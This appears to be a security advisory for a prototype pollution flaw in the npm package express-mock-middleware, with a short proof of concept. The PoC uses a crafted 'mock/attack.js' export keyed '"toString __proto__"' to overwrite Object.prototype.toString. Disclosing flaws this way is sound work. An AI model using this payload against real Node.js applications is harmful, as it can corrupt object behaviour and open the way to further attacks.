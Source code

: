# Overview
`express-mock-middleware` is a simple mock middleware for express, this package are vulnerable to Prototype Pollution, exported functions by the package can be tricked into adding or modifying properties of the Object.prototype``. 

Exploitation of this vulnerability requires creation of a new directory where an attack code can be placed which will then be exported by `express-mock-middleware`. As such, this is considered to be a low risk. 

# Proof of Concept
```
/*
 * This program requires an input file under folder named "mock". 
 * 
 * To run the exploit, we need to new a "mock" directory, inside this directory, 
 * we create our attack JS file. This program will parse the exported functions
 * and put the parsed result to the expolit point without sanitization. 
 * The folder structure looks like:
 * 
 * express-mock-middleware.js
 * mock
 * --attack.js
 *
 * the content of "mock/attack.js" can be the following:
 * 
 * var attack_function = function (){};
   module.exports =  {
     "toString __proto__": attack_function
   }
 * */

var a = require("express-mock-middleware");
var app = a();
console.log({}.toString);
```